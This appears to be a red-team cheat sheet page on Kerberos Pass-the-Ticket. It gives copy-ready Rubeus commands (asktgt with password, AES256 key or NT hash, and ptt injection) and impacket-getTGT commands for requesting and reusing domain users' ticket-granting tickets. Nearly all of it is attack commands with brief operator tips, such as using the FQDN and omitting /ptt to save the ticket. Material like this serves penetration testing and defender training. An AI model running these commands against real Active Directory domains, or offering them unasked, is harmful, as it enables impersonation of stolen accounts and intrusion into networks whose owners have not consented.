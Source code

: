 ```yaml
---
label: Pass-the-Ticket (Kerberos)
subLabel: (Rubeus, getTGT)
---
```


# Pass-the-Ticket

> **Requirements**
>
> * Credentials (password, RC4/NT hash, AES key, kirbi file) of the target domain user.

Having the credentials of a domain user, we can ask the DC for a new TGT for that user and inject it into the current logon session.

> **IMPORTANT**: Watch out for domain name! It's very important in TGT request to use FQDN (e.g. `adlab.local` instead of `adlab`). Even if shortcut normally works, use FQDN in this case.

Windows:

> **IMPORTANT**: Only one TGT can be applied at a time to the current logon session, so the previous TGT is wiped when the new ticket is applied when using the `/ptt` option. You can omit the `/ptt` parameter to **save the TGT to a file** (not inject it into memory) and use it later.

```powershell
# Using password
./Rubeus.exe asktgt /user:$fqdn\$user /password:$password /ptt

# Using AES256 key
./Rubeus.exe asktgt /user:$fqdn\$user /aes256:$aes256_key /ptt

# Using RC4/NT hash (Overpass-the-Hash)
./Rubeus.exe asktgt /user:$fqdn\$user /rc4:$rc4 /ptt

# Inject TGT as base64 or .kirbi file
./Rubeus.exe ptt /ticket:$base64_or_kirbi_file
```

> **NOTICE**: You can check current logon TGT cached in memory using `klist tgt` (built-in Windows tool).

Linux (request TGT and save it to `.ccache` file):

```bash
# Using password
impacket-getTGT $fqdn/$user:$pass -dc-ip $dc_ip

# Using NT hash
impacket-getTGT $fqdn/$user -hashes :$nt_hash -dc-ip $dc_ip

# Using AES key
impacket-getTGT $fqdn/$user -aesKey $aes_key -dc-ip $dc_ip
```

{/*TODO: /createonlt parameter (elevation required)*/}
